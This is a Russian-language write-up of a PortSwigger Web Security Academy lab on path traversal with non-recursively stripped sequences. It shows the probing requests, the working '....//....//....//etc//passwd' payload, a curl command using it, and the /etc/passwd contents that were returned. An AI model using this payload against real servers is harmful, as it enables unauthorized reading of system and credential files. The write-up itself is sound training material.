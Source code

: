```yaml
---
title: "File path traversal, traversal sequences stripped non-recursively"
date: 2025-07-04
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-sequences-stripped-non-recursively"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

Приложение удаляет ключевые символы и слова пути из имени файла, предоставленного пользователем перед его использованием.

Для решения лабораторной работы нужно извлечь содержимое файла `/etc/passwd`.

```
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/
```

## Solution

Из задания мне известно, что уязвимость содержится в пути к картинке. 

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_non-recursively/1.png){: height="200" .align-center}

Сразу перейду к тестированию разных путей к файлу:

```
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=/etc/passwd - "No such file"
```

Ожидаемо, что мы не получили ответ так просто) Предположим, что удаляется символ `/`. Попробую проверить это:

```
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=8.jpg - ОК
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=./8.jpg - ОК
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=./8.jpg - ОК
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=../8.jpg - ОК
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=..../8.jpg - No such file
```

По всей видимости две точки вырезаются или заменяются на символ одной точки. Предполагаю, что это будет для всех не буквенных символов. Попробую получить `/etc/passwd`:

```
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=....//etc//passwd - No such file
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=....//....//etc//passwd - No such file
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=....//....//....//etc//passwd - ОК
```

Скачаю файл через `curl`:

```bash
cu63:~/ $ curl https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image\?filename\=....//....//....//etc//passwd                                                                                
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Лаба решена.
